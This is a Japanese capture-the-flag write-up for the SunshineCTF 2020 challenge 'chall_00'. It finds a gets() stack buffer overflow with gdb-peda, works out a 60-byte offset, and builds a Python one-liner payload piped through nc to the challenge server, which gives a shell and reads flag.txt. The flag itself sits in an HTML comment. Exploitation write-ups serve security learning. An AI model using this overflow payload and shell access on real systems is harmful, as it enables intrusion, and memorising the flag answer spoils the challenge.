

# Writeup

`file`コマンドで形式を調べる。

```bash
$ file chall_00
chall_00: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=dadca72eeddf37ba3b9fed1543b8ccdf75cbc78e, not stripped
```

IDAを使って処理の流れを調べる。



`gets()`のバッファーオーバーフローの脆弱性をつき、`cmp`で`[rbp+var_8]`を`0FACADEh`に一致させれば良さそう。

そのために、どのくらい文字列を送れば`[rbp+var_8]`を書き換えられるのか調べてみる。

まずは`gets()`まで進む。

```GDB
gdb-peda$ 
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x555555554720 (<__libc_csu_init>:	push   r15)
RCX: 0x7ffff7ed41e7 (<__GI___libc_write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x5555557562a0 ("This is the only one\n")
RDI: 0x7fffffffddf0 --> 0x1 
RBP: 0x7fffffffde30 --> 0x0 
RSP: 0x7fffffffddf0 --> 0x1 
RIP: 0x5555555546ea (<main+32>:	call   0x5555555545a0 <gets@plt>)
R8 : 0x15 
R9 : 0x7c ('|')
R10: 0x7ffff7faebe0 --> 0x5555557566a0 --> 0x0 
R11: 0x246 
R12: 0x5555555545c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdf20 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5555555546de <main+20>:	lea    rax,[rbp-0x40]
   0x5555555546e2 <main+24>:	mov    rdi,rax
   0x5555555546e5 <main+27>:	mov    eax,0x0
=> 0x5555555546ea <main+32>:	call   0x5555555545a0 <gets@plt>
   0x5555555546ef <main+37>:	cmp    DWORD PTR [rbp-0x4],0xfacade
   0x5555555546f6 <main+44>:	jne    0x555555554704 <main+58>
   0x5555555546f8 <main+46>:	lea    rdi,[rip+0xba]        # 0x5555555547b9
   0x5555555546ff <main+53>:	call   0x555555554590 <system@plt>
Guessed arguments:
arg[0]: 0x7fffffffddf0 --> 0x1 
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffddf0 --> 0x1 
0008| 0x7fffffffddf8 --> 0x55555555476d (<__libc_csu_init+77>:	add    rbx,0x1)
0016| 0x7fffffffde00 --> 0x7ffff7fb3fc8 --> 0x0 
0024| 0x7fffffffde08 --> 0x555555554720 (<__libc_csu_init>:	push   r15)
0032| 0x7fffffffde10 --> 0x0 
0040| 0x7fffffffde18 --> 0x5555555545c0 (<_start>:	xor    ebp,ebp)
0048| 0x7fffffffde20 --> 0x7fffffffdf20 --> 0x1 
0056| 0x7fffffffde28 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x00005555555546ea in main ()
```

次に、`pattc`で生成した文字列を送り込む。

```GDB
gdb-peda$ pattc 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ ni
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffddf0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBX: 0x555555554720 (<__libc_csu_init>:	push   r15)
RCX: 0x7ffff7fae980 --> 0xfbad2288 
RDX: 0x0 
RSI: 0x5555557566b1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
RDI: 0x7ffff7fb14d0 --> 0x0 
RBP: 0x7fffffffde30 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RSP: 0x7fffffffddf0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RIP: 0x5555555546ef (<main+37>:	cmp    DWORD PTR [rbp-0x4],0xfacade)
R8 : 0x7fffffffddf0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
R9 : 0x0 
R10: 0x7ffff7faebe0 --> 0x555555756ab0 --> 0x0 
R11: 0x246 
R12: 0x5555555545c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdf20 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5555555546e2 <main+24>:	mov    rdi,rax
   0x5555555546e5 <main+27>:	mov    eax,0x0
   0x5555555546ea <main+32>:	call   0x5555555545a0 <gets@plt>
=> 0x5555555546ef <main+37>:	cmp    DWORD PTR [rbp-0x4],0xfacade
   0x5555555546f6 <main+44>:	jne    0x555555554704 <main+58>
   0x5555555546f8 <main+46>:	lea    rdi,[rip+0xba]        # 0x5555555547b9
   0x5555555546ff <main+53>:	call   0x555555554590 <system@plt>
   0x555555554704 <main+58>:	cmp    DWORD PTR [rbp-0x8],0xfacade
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffddf0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0x7fffffffddf8 ("ABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0x7fffffffde00 ("AACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0x7fffffffde08 ("(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0032| 0x7fffffffde10 ("A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0040| 0x7fffffffde18 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0048| 0x7fffffffde20 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0056| 0x7fffffffde28 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x00005555555546ef in main ()
```

`[rbp-0x4]`の値を見て、オフセットを調べる。

```GDB
gdb-peda$ x $rbp-0x4
0x7fffffffde2c:	"2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"
gdb-peda$ patto 2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL found at offset: 60
```

オフセットが60だと分かったので適当な文字で60文字分埋め、`0x00facade`を付け加えたものを送る。
（リトルエンディアンであることに注意）

```bash
$ python3 -c "import sys;sys.stdout.buffer.write(b'A'*60 + b'\xde\xca\xfa\x00')" > input
$ cat input /dev/stdin | nc chal.2020.sunshinectf.org 30000
```

2行目の標準入力でbashのコマンドが実行できる。

```bash
$ cat input /dev/stdin | nc chal.2020.sunshinectf.org 30000
This is the only one
ls
ls -la
total 36
drwxr-xr-x 1 chall_00 chall_00 4096 Nov  7 08:51 .
drwxr-xr-x 1 root     root     4096 Nov  7 08:51 ..
-rw-r--r-- 1 chall_00 chall_00  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 chall_00 chall_00 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 chall_00 chall_00  655 Jul 12  2019 .profile
-rwxr-xr-x 1 root     root     8392 Nov  7 07:49 chall_00
-rw-r----- 1 root     chall_00   35 Nov  7 08:51 flag.txt
^C

$ cat input /dev/stdin | nc chal.2020.sunshinectf.org 30000
This is the only one
        
cat flag.txt
```

<!-- sun{burn-it-down-6208bbc96c9ffce4} -->

**[ハマったこと]**

python3系ではバイト文字列の出力方法が違うので注意する。

* https://www.366service.com/jp/qa/a2f0316cea73399d1c68c221ee29fbb7

標準入力が閉じないように`/dev/stdin`をつける。

* http://flag.hatenablog.jp/entry/2017/09/11/225013